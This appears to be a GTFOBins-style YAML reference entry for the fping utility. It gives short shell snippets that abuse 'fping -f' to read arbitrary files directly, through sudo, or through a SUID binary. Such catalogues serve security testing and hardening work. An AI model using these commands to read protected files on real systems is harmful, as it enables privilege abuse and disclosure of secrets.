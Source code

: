 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        fping -f $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo fping -f $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./fping -f $LFILE
---
```

